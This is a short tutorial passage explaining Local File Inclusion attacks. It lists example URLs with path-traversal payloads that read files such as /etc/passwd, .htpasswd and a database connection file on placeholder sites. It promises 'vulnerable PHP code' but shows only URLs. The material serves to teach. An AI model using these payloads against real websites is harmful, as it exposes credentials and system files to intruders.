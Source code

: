 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

`https://website-example.com/?page=filename.php`

`https://website-example.com/?page=../../../../etc/test.txt`

`http://www.example_target_website.com/download.php?file=document.html`

`http://www.example_target_website.com/download.php?file=../../../../etc/passwd`

`https://example-vulnerable-website.com/?module=contact.php`

`https://example-vulnerable-website.com/?module=/etc/passwd`

`https://example-vulnerable-website.com/?module=uploads/image123.gif`

`https://example-vulnerable-website.com/?helpfile=login.txt`

```https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd

https://example-vulnerable-website.com/?download=brochure.pdf

https://example-vulnerable-website.com/?download=../include/connection.php```
